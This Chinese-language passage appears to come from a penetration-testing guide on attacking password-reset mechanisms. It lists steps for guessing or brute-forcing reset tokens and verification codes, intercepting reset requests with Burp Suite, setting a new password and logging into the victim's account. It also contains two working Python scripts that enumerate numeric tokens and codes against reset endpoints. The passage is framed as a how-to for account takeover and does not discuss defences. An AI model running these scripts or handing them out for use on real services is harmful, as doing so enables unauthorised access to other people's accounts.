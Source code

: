 **步骤2：猜测或暴力破解Token或验证码**
1. 编写Python脚本，枚举或暴力破解Token或验证码。
2. 使用脚本尝试获取有效Token或验证码。

**步骤3：访问密码重置页面**
1. 使用获取的Token或验证码访问密码重置页面。
2. 设置新密码，完成重置。

**步骤4：验证攻击成功**
1. 使用新密码登录用户账户，验证攻击是否成功。

## 4. 实际命令、代码或工具使用说明

### 4.1 Burp Suite使用

**拦截请求**：
1. 启动Burp Suite，配置浏览器代理。
2. 在Burp Suite中启用拦截功能。
3. 在浏览器中请求密码重置，拦截请求。

**分析Token**：
1. 在Burp Suite中查看拦截的请求，获取Token。
2. 分析Token生成算法，尝试猜测或暴力破解Token。

### 4.2 Python脚本示例

**Token猜测脚本**：
```python
import requests

def guess_token(url, token_length):
    for i in range(10**token_length):
        token = str(i).zfill(token_length)
        response = requests.get(f"{url}?token={token}")
        if "Password Reset" in response.text:
            print(f"Valid token found: {token}")
            return token
    return None

url = "http://example.com/reset"
token_length = 6
guess_token(url, token_length)
```

**验证码暴力破解脚本**：
```python
import requests

def brute_force_verification_code(url, code_length):
    for i in range(10**code_length):
        code = str(i).zfill(code_length)
        response = requests.post(url, data={"code": code})
        if "Password Reset" in response.text:
            print(f"Valid code found: {code}")
            return code
    return None

url = "http://example.com/verify"
code_length = 4
brute_force_verification_code(url, code_length)
```
